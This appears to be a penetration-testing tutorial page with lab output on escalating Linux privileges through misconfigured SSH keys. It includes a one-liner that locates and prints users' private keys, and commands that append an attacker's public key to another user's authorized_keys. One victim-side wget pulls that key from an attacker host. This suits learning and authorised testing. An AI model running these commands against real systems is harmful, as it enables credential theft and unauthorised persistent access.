 ```yaml
---
title: "Misconfigured SSH Keys"
author: am-a-circle
date: 2021-12-31 09:00:00 +0800
categories: [privilege escalation]
tags: [SSH]
math: false
mermaid: false
---
```


Extract from [here](https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/) !

## **Understanding Asymmetric Encryption**

Before diving into the possible attacks, it is crucial to understand the key pair concept that SSH and other asymmetric cryptographic protocols utilize to secure a connection. These use a private key to encrypt information, and a corresponding public key to decrypt it.

When communicating to a machine via SSH, a user can authenticate if their private key is considered trustworthy by the server and added to the [authorized_keys](https://www.ssh.com/ssh/authorized_keys/) file, or if their private key corresponds to a public key stored in the server.

The default name for public keys is usually id_rsa.pub or id_dsa.pub and the default name for private keys is id_rsa or id_dsa, based on the encryption algorithm used. DSA is known to be insecure.

## **Exploiting SSH Keys**

The main two ways of exploiting SSH keys are the following:

-   Accessing readable private SSH keys and using them to authenticate
-   Accessing writable public SSH keys and adding your own one to them to authenticate

If readable private keys or writable public keys are present on the machine, this could allow for an attacker to escalate privileges to root.

Public and private keys are generally stored in one of the following locations:

-   /root/.ssh/
-   /home/user_name/.ssh/ (users home directory)
-   /etc/ssh/
-   in the paths specified in the ssh_config or sshd_config config files

The following command can be used to identify any existing public or private keys and their permissions:

```
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa
```

### **Readable Private Keys**

As mentioned earlier, private keys are used by users to authenticate via SSH. If a private key is stored in a way that makes it accessible to the current user, this means it can be used to perform an authentication as the owner of the private key.

The easiest way to exploit this is to simply copy the key over to a Kali host, by simply copying and pasting the contents of the file. 

In order for the private key to be accepted by SSH, it needs to be only readable and writable only by its owner, otherwise it will complain that the permissions applied are too open.

Using the following command to change the file permissions against the newly created SSH private key:

```
chmod 600 id_rsa
```

The following command can then be used to login as the “Victim” user:

```
ssh -i id_rsa user_name@X.X.X.X
```

#### Get username of private keys

If you have private key but not sure of the username. The below will  read a private OpenSSH format file and print an OpenSSH public key to stdout.

```bash
┌──(root💀kali)-[/opt/hackmyv/icarus]
└─# ssh-keygen -y -f id_rsa

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnFqDEuI3k5uE+M1yzYjZyRxisSspq6c7CbjSRMGcnq+tt1Fge15Jp81YLrEUXPA7vv4rN7bb14rh11lzCZTQh03TZjydivGGXyU5z57lPQCPP61GYsajElU+xJPMoERGVakq4mgY78IQUs6/o8/qzv1hjNkWl1SNpzNj3qOAgJ+3M1lL5WQFe4uMqvv2HhPDPsErhXoURBjSHBPw0V82sXfHdU97RSy12JQkWXhBX+oA+UdWE93RhQQ+v/3mavKO4aLXHA/vFUWtjKMt896mpgeJLktnEV7AtaGFKME4jR3N/9PCI1GdUZNmEHcZ6aAQhBEBqbbqORlncHGStRVyR icarus@icarus
```

### **Writable Public Keys**

The authorized_keys file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured.

The default configuration in most SSH implementations allows users to deploy new [authorized keys](https://www.ssh.com/ssh/authorized-key) for themselves and anyone else, which are permanent and may bypass privileged access management systems.

If the authorized_keys file is writable to the current user, this can be exploited by adding additional authorized keys.

The easiest way to exploit this is to generate a new SSH key pair, add the public key to the file and login in using the private key.

The ssh-keygen command line utility can be used to generate a new SSH key pair.

The public key can then be copied with the ssh-copy command line tool:

```
ssh-copy-id user_name@X.X.X.X
```

Or simply by using cat to output the contents of the id_rsa.pub file and redirect it to the authorized_keys file:

```
cat ~/.ssh/id_rsa.pub | ssh user_name@X.X.X.X "cat >> /home/user_name/.ssh/authorized_keys"
```

The methods above will only work if SSH access is already available. If not, the contents of the public key can simply be pasted into the authorized_host file. Using xclip to add the public key to the clipboard or Copying the public key to the authorized_hosts file.

e.g.

```bash
www-data@five:/tmp$ ssh-keygen                                                                                                                                            
Generating public/private rsa key pair.                                                                                                                                   
Enter file in which to save the key (/var/www/.ssh/id_rsa): /tmp/id_rsa                                                                                                   
Enter passphrase (empty for no passphrase):                                                                                                                               
Enter same passphrase again:                                                                                                                                              
Your identification has been saved in /tmp/id_rsa.                                                                                                                        
Your public key has been saved in /tmp/id_rsa.pub.                                                                                                                        
The key fingerprint is:                                                                                                                                                   
SHA256:AqFOY+gJJbcHcANOjAprNc9ANyZT3hCD/n/gLJEPU6s www-data@five
The key's randomart image is:
+---[RSA 2048]----+
|*+B++O.          |
|=B X*.=          |
|=oO B. .         |
|==.+ + .         |
|.o. . + S        |
|     * +         |
|      X .        |
|     E = .       |
|      . .        |
+----[SHA256]-----+

www-data@five:/tmp$ ls    
id_rsa  id_rsa.pub  systemd-private-c92ecfd176894a7d8dabf029f877607c-systemd-timesyncd.service-c1CO3M


www-data@five:/tmp$ sudo -u melisa cp id_rsa.pub /home/melisa/.ssh/authorized_keys
```

Alternatively , instead of creating keys using SSH keygen , port over your id_rsa.pub and ssh through your local machine.

On victim Machine:
```bash
www-data@five:/tmp wget http://192.168.56.3:1235/id_rsa.pub

www-data@five:/tmp$ sudo -u melisa cp id_rsa.pub /home/melisa/.ssh/authorized_keys
```
On Local Machine:
```bash
┌──(root💀kali)-[/opt/hackmyv/five]
└─# ssh melisa@192.168.56.27 -i /root/.ssh/id_rsa
```
